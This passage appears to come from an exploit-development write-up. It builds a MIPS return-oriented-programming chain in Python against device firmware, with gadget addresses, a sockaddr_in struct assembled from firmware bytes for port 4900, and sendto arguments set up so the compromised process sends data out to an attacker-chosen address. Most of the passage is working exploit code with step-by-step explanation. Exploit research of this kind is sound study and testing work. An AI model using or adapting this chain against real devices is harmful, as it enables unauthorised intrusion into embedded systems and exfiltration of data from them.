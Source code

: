 ```
-python
# 0x00166168: move $v1, $v0; lw $ra, 4($sp); move $v0, $v1; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x18f044 + base_address)

# 0x0018f044: move $a2, $v1; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += b'b' * 0xc
chain += p32(0x1a9f9c + base_address)
```

As you can see, I needed to use _$v1_ as a middle man as there were no useful gadgets that moved _$v0_ into _$a2_. However, we now have one of our _sendto_ arguments in the right place.

### sockaddr_in

```
-c
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
```

We need to create a _sockaddr_in_ struct containing the port and IP address we would like to send the message to. As we cannot send null bytes, we will need to find some memory that we can copy containing the bytes we need.

To indicate _sin_family_ AF*INET in our struct, the first 2 bytes need to be \_0x0* and _0x2_. The next 2 bytes specify the port number, so anything works. I found _0x0_ _0x2_ _0x13_ _0x24_ in the firmware image - so we will be sending messages over port 4900.

All we need to do now to have a valid _sockaddr_in_ struct is append the IP address. As most of this is done within the _sendto_ call construction, I will include the gadgets used in the next section.

### sendto

`ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *dest_addr, socklen_t addrlen);`

As you can see above, we have 6 argument to populate, meaning we will be loading values into _$t0_ and _$t1_. Lets start with the easy arguments and get the _sockfd_ we stored earlier into _$a0_:

```
-python
# Load sockfd address into v0
# 0x001a9f9c: lw $v0, ($sp); lw $ra, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += p32(sockfd_addr) # v0
chain += b'b' * 8
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr) # s1
chain += p32(0x1a46dc + base_address) # ra

# Get the actual value of sockfd into v0
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8;
chain += b'b' * 4
chain += p32(0x1746c8 + base_address)

# Move sockfd to a0 for connect
# 0x001746c8: move $a0, $v0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x11e568 + base_address) # ra
```